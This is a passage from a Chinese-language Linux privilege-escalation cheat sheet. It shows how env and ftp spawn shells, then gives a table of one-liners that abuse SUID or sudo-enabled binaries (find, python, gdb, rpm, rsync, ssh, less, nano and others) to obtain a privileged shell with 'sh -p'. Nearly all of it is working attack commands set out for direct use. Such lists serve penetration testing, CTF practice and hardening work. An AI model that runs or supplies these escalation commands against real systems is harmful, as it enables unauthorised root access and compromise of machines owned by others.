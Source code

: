 ## 4.19 env命令提权

env whoami

env /bin/bash

env /bin/sh

![image-20231120221342414](assets/image-20231120221342414.png)

## 4.20 ftp命令提权

```
ftp
!/bin/bash   [sh]
```

![image-20231120221541233](assets/image-20231120221541233.png)

## 简单总结列表

```shell
命令	      利用方法
zsh	        zsh
xargs	      xargs -a /dev/null sh -p
watch	      watch -x sh -c ‘reset; exec sh -p 1>&0 2>&0’
timeout	    timeout 7d /bin/sh -p
time	      time /bin/sh -p
tclsh	      1、tclsh 2、exec /bin/sh -p <@stdin >@stdout 2>@stderr
taskset	    taskset 1 /bin/sh -p
stdbuf	    stdbuf -i0 /bin/sh -p
strace	    strace -o /dev/null /bin/sh -p
ssh	        ssh -o ProxyCommand=’;sh -p 0<&2 1>&2’ x
setarch	    setarch $(arch) /bin/sh -p
rsync	      rsync -e ‘sh -p -c “sh -p 0<&2 1>&2”’ 127.0.0.1:/dev/null
rpm	        rpm --eval ‘%{lua:os.execute("/bin/sh -p")}’
python	    python -c ‘import os; os.execl("/bin/sh", “sh”, “-p”)’
php	        1、CMD="/bin/sh" 2、 php -r “pcntl_exec(’/bin/sh’, [’-p’]);”
nice	      nice /bin/sh -p
nano	      1、nano //运行nano程序  2、^R //按下ctrl-r 3、^X //按下ctrl-x 4、reset; sh -p 1>&0 2>&0
                             // 输 入下面的命令
more	      1、more /etc/profile  2、!/bin/sh -p
logsave	    logsave /dev/null /bin/sh -i -p
less	      less /etc/profile //读取文件，在底行输入!/bin/sh -p
ksh	        ksh -p
ip	        1、ip netns add foo 2、ip netns exec foo /bin/sh -p 3、ip netns delete foo
ionice	    ionice /bin/sh -p
git	        git help status
gimp	      gimp -idf --batch-interpreter=python-fu-eval -b ‘import os; os.execl("/bin/sh", “sh”,         “-p”)’
gdb	        gdb -nx -ex ‘python import os; os.execl("/bin/sh", “sh”, “-p”)’ -ex quit
ftp	        ftp //在底行输入“!/bin/sh -p”
flock	      flock -u / /bin/sh -p
find	      find . -exec /bin/sh -p ; -quit
```